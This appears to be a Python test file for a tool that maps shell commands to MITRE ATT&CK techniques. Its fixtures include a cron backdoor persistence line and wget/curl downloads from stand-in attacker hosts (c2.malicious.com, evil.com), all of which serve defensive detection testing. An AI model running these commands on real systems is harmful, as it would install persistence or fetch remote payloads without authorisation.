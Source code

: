 ```python
def test_ttp_mapper_identifies_command_execution():
    """Test TTP mapper identifies Unix command execution."""
    mapper = TTPMapper()
    
    commands = ["bash -c 'whoami'", "uname -a", "ls -la /etc"]
    ttps = mapper.map_ttps(commands, "post_exploit")
    
    assert "T1059.004" in ttps  # Unix Shell
    assert "T1082" in ttps  # System Info Discovery
    assert "T1083" in ttps  # File Discovery


def test_ttp_mapper_identifies_persistence():
    """Test TTP mapper identifies persistence techniques."""
    mapper = TTPMapper()
    
    commands = ["crontab -e", "echo '* * * * * /tmp/backdoor.sh' >> /etc/crontab"]
    ttps = mapper.map_ttps(commands, "post_exploit")
    
    assert "T1053.003" in ttps  # Scheduled Task: Cron
    assert "T1053" in ttps  # Scheduled Task (parent)


def test_ttp_mapper_identifies_c2_communication():
    """Test TTP mapper identifies C2 communication."""
    mapper = TTPMapper()
    
    commands = ["wget http://c2.malicious.com/payload.sh", "curl -O http://evil.com/data.txt"]
    ttps = mapper.map_ttps(commands, "post_exploit")
    
    assert "T1071.001" in ttps  # Web Protocols
    assert "T1105" in ttps  # Ingress Tool Transfer


def test_ttp_mapper_handles_empty_commands():
    """Test TTP mapper handles empty command list gracefully."""
    mapper = TTPMapper()
    
    ttps = mapper.map_ttps([], "unknown")
    
    # Should return empty list (no TTPs detected)
    assert ttps == []


def test_ttp_mapper_get_ttp_info():
    """Test TTP mapper returns technique information."""
    mapper = TTPMapper()
    
    info = mapper.get_ttp_info("T1110")
    
    assert info["name"] == "Brute Force"
    assert info["tactic"] == "Credential Access"


def test_ttp_mapper_handles_unknown_technique():
    """Test TTP mapper handles unknown technique ID gracefully."""
    mapper = TTPMapper()
    
    info = mapper.get_ttp_info("T9999")
    
    assert "Unknown Technique" in info["name"]
    assert "Unknown" in info["tactic"]

```